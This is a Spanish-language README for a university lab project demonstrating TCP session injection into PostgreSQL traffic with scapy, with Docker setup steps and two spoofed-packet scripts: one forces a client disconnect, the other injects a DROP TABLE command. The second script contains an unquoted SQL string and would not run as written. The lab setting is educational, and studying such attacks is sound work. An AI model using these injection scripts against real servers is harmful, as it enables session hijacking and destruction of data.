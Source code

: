 # PostgreSQL TCP Injection Demo

## Descripción del Proyecto
Este proyecto demuestra cómo realizar inyecciones TCP en conexiones PostgreSQL para ejecutar comandos no autorizados, incluyendo expulsar usuarios y eliminar tablas.

## Contexto Técnico

Se utiliza la librería de python **scapy**

- **Estructura de mensajes**:

- Byte de tipo (ej: `Q`=Query, `R`=Autenticación)

- Longitud (4 bytes)

- Cuerpo con datos (consultas, parámetros)

- **Flujo de comunicación**:

1. Startup Message (inicio de sesión)

2. Autenticación (métodos: SCRAM-SHA-256, TLS, etc.)

3. Parameter Status (configuración)

4. Ejecución de consultas (`Q` → `T`/`D`/`C`)

5. Finalización (`X`)

## Configuración del Entorno

### Requisitos

- 2 máquinas virtuales Ubuntu

- Docker instalado en ambos sistemas

```bash

# Comandos de instalación

sudo apt update

sudo apt install docker.io

sudo systemctl enable docker

sudo systemctl start docker

```

### Servidor PostgreSQL

1. Crear contenedor:

```bash

sudo docker run --name pg-servidor \

-e POSTGRES_USER=carlostarea2 \

-e POSTGRES_PASSWORD=psqlclientel23 \

-e POSTGRES_DB=tarea2_taller \

-p 5432:5432 \

-d postgres

```

2. Verificar conexión:

```bash

sudo docker ps

```

3. Abrir puerto 5432 en el firewall.

### Cliente PostgreSQL

1. Verificar conectividad con el servidor (reemplazar IP según tu entorno):

```bash

ping 172.16.30.83

```

2. Conectar al servidor:

```bash

docker run -it --rm postgres psql \

-h 172.16.30.83 \

-U carlostarea2 \

-d tarea2_taller

```

*Ingresar contraseña cuando se solicite*

## Instalación scapy


```bash

pip install scapy

```
## Expulsar usuario
Este script genera trafico basura dirigido al servidor para forzar la desconexión del cliente
```bash
#expulsar_usuario.py
from scapy.all import *
import struct
import time

# Valores REALES extraídos de Wireshark (ajusta estos)
ip_src = "192.168.1.89"     # IP cliente
ip_dst = "192.168.1.90"     # IP servidor
sport = 54678               # Puerto TCP cliente
dport = 5432                # Puerto PostgreSQL
seq_base = 123456789        # Sequence number capturado
ack = 987654321             # Acknowledgment number capturado

# Lista de cargas PostgreSQL (maliciosas o falsas)
consultas = [
    "SOMEGARBAGE",    # pura basura
    "ABORT;",         # comando SQL que puede cerrar sesión
]

# Enviar cada paquete uno por uno
for i, consulta in enumerate(consultas):
    payload = b'Q' + struct.pack("!I", len(consulta.encode()) + 5) + consulta.encode() + b'\x00'
    ip = IP(src=ip_src, dst=ip_dst)
    tcp = TCP(sport=sport, dport=dport, seq=seq_base, ack=ack, flags="PA")
    pkt = ip / tcp / Raw(load=payload)
    print(f"[{i+1}/{len(consultas)}] Enviando: {consulta}")
    send(pkt, verbose=False)
    seq_base += len(payload)  # avanza el número de secuencia TCP
    time.sleep(0.2)  # pausa corta para no congestionar

print("Inyección completada.")
```
Se ejecuta utilizando
```bash
sudo python3 expulsar_usuario.py
```
## Eliminar tabla
Se simula ser un cliente autentico para enviar el comando de DROP TABLE al servidor y así eliminar la tabla creada por el cliente
```bash
#eliminar_tabla.py
from scapy.all import *
import struct
import time

# Valores REALES extraídos de Wireshark (ajusta estos)
ip_src = "192.168.1.89"     # IP cliente
ip_dst = "192.168.1.90"     # IP servidor
sport = 54678               # Puerto TCP cliente
dport = 5432                # Puerto PostgreSQL
seq_base = 123456789        # Sequence number capturado
ack = 987654321             # Acknowledgment number capturado

# Lista de cargas PostgreSQL (maliciosas o falsas)
consultas = [
    DROP TABLE IF EXISTS claves;
]

# Enviar cada paquete uno por uno
for i, consulta in enumerate(consultas):
    payload = b'Q' + struct.pack("!I", len(consulta.encode()) + 5) + consulta.encode() + b'\x00'
    ip = IP(src=ip_src, dst=ip_dst)
    tcp = TCP(sport=sport, dport=dport, seq=seq_base, ack=ack, flags="PA")
    pkt = ip / tcp / Raw(load=payload)
    print(f"[{i+1}/{len(consultas)}] Enviando: {consulta}")
    send(pkt, verbose=False)
    seq_base += len(payload)  # avanza el número de secuencia TCP
    time.sleep(0.2)  # pausa corta para no congestionar

print("Inyección completada.")
```
Se ejecuta utilizando
```bash
sudo python3 eliminar_tabla.py
```
## Conclusiones

1. El protocolo sigue un flujo estructurado y predecible

2. Comunicación binaria eficiente con bajo overhead

3. Seguridad implementada mediante:

- Autenticación SCRAM-SHA-256

- Soporte para TLS 1.3 (PostgreSQL 13+)

4. Compatibilidad con herramientas estándar (psql, pgAdmin, DBeaver)

5. Ideal para entornos distribuidos y sistemas en la nube

## Recursos Adicionales

- [Documentación Oficial del Protocolo](https://www.postgresql.org/docs/current/protocol.html)

- [Docker Hub - Imagen PostgreSQL](https://hub.docker.com/_/postgres)

- [Wireshark - Wiki](https://wiki.wireshark.org/)

- [Comunidad PostgreSQL](https://www.postgresql.org/community/)

## Autores

- Carlos Rodríguez

- Jorge Gonzalez

- Martín Mora

*Universidad Diego Portales - Junio 2025*
